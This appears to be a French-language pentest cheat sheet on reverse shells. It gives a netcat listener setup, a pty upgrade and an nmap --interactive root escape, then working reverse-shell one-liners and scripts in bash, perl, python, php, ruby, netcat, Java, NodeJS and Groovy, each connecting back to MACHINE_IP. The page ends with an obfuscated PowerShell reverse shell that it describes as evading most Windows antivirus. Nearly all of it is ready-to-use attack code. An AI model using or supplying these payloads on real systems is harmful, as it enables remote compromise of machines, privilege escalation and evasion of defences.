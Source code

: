 
  
Un reverse shell est un [[Shell_explanation]] entre une machine cible et la notre.

## __Setup Netcat Listener__

Démarrage d’un serveur **Netcat** pour être à l’**écoute d’un port**.

```shell
user@ip:~$ rlwrap nc -vnlp 1234
```

Attendez que votre [script](#__Scripts__) soit éxécuté.

Une fois le reverse shell en marche, pour switcher vers un **fully interactive shell**.

```shell
$ python -c 'import pty; pty.spawn("/bin/bash")';
```

On peut ensuite utiliser **`su`** pour se connecter.

## __Nmap --interactive__

**Seulement pour les version 2.02 à 5.21**
Si notre utilisateur a les permissions d'utiliser nmap, on peut utiliser [nmap pour se connecter en root](https://gtfobins.github.io/gtfobins/nmap/#shell) sur notre shell, pour cela :

```shell
user@linux:/$ nmap --interactive
nmap> !sh
```

C'est une des astuces disponibles dans [Privilege_Escalation](Privilege_Escalation).

## __Scripts__

Pour générer des reverses shells vous pouvez utiliser le site de 0day, [revshells](https://www.revshells.com/)
Vous pouvez aussi utiliser [ce git](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#nodejs)

### Bash

```bash
bash -i >& /dev/tcp/MACHINE_IP/1234 0>&1
```

### Perl

```perl
perl -e 'use Socket;$i="MACHINE_IP";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("MACHINE_IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Php

```php
php -r '$sock=fsockopen("MACHINE_IP",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

ou 

[Celui ci](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), mais windows defender le supprimera.

### Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("MACHINE_IP",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat

```shell
nc -e /bin/sh MACHINE_IP 1234
```

### Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/MACHINE_IP/1234;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### NodeJS

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(1234, "MACHINE_IP", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

### Groovy

```groovy
String host="MACHINE_IP";
int port=1234;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){
	while(pi.available()>0)so.write(pi.read());
	while(pe.available()>0)so.write(pe.read());
	while(si.available()>0)po.write(si.read());
	so.flush();
	po.flush();Thread.sleep(50);
	try {p.exitValue();break;}catch (Exception e){}
};
p.destroy();
s.close();
```

### Powershell

Ce shell est chiffré en [base64](Encryption_Chiffrement) car il est repéré par la plupart des antivirus windows. 

```powershell
"$84b5d7ab8755451cb386a79589e39fa8 = New-Object System.Net.Sockets.TCPClient('127.0.0.1',8181); $3b95c1d3d7dc4e4fa6474ce1bceae743 = $84b5d7ab8755451cb386a79589e39fa8.GetStream(); [byte[]] $367ad63a4a834bf5bb275aab24a4890c = 0..65535|%{0}; while(($d084ee484cf44c09b003024847840f3d = $3b95c1d3d7dc4e4fa6474ce1bceae743.Read($367ad63a4a834bf5bb275aab24a4890c, 0, $367ad63a4a834bf5bb275aab24a4890c.Length)) -ne 0){; $b16fd2353f0d413484e1583776256f61 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($367ad63a4a834bf5bb275aab24a4890c,0, $d084ee484cf44c09b003024847840f3d); $b396f8bb13ec47c28e4f721085e95361 = (iex $b16fd2353f0d413484e1583776256f61 2>&1 | Out-String ); $2bfb84697b834fa09479071ec68d6b19 = $b396f8bb13ec47c28e4f721085e95361 + 'PS' + $(gl) + '> '; $12e0e1f0c5e14474b53907ee11f75ed7 = ([text.encoding]::ASCII).GetBytes($2bfb84697b834fa09479071ec68d6b19); $3b95c1d3d7dc4e4fa6474ce1bceae743.Write($12e0e1f0c5e14474b53907ee11f75ed7,0, $12e0e1f0c5e14474b53907ee11f75ed7.Length);$3b95c1d3d7dc4e4fa6474ce1bceae743.Flush()}; $84b5d7ab8755451cb386a79589e39fa8.Close()"
```